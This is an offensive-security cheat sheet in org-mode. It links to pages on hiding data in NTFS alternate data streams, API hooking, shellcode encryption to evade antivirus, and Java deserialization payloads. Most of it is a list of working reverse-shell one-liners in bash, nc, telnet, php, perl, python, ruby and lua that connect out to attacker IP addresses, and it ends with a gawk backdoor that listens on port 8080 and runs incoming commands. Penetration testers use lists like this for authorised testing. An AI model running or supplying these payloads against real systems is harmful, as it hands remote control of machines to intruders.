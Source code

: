 ** 数据隐藏
   - NTFS 交换数据流：https://www.cnblogs.com/Chesky/p/ALTERNATE_DATA_STREAMS.html
   - Data Streams：https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/
** Hook
   - Detours: https://github.com/microsoft/Detours/wiki
   - inline hook lib: https://bbs.pediy.com/thread-225863.htm
   - linux elf hook *demo*: https://bbs.pediy.com/thread-178320.htm
** shellcode
   - 加密过杀软：https://xz.aliyun.com/t/6995
   - 3gstudent shellcode 生成工具：https://3gstudent.github.io/3gstudent.github.io/Shellcode%E7%94%9F%E6%88%90%E5%B7%A5%E5%85%B7Donut%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90/
** Java
   - 反序列化代码执行：http://www.jackson-t.ca/runtime-exec-payloads.html
** reverse shell
*** bash
    bash -i >& /dev/tcp/ip/port 0>&1
*** nc
    nc -e /bin/bash 192.168.1.146 7777
*** telnet
    telnet mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe
*** php
    php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.1.146/7777");'
*** perl
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
*** python
    python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
    python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
    python -c "exec(shellcode.encode('base64').decode('base64'))"
*** ruby
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
*** lua
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
*** awk
#+begin_src awk
  #!/usr/bin/gawk -f

  BEGIN {
      Port    =  8080
      Prompt  =  "bkd> "

      Service = "/inet/tcp/" Port "/0/0"
      while (1) {
          do {
              printf Prompt |& Service
              Service |& getline cmd
              if (cmd) {
                  while ((cmd |& getline) > 0)
                      print $0 |& Service
                  close(cmd)
              }
          } while (cmd != "exit")
          close(Service)
      }
  }
#+end_src

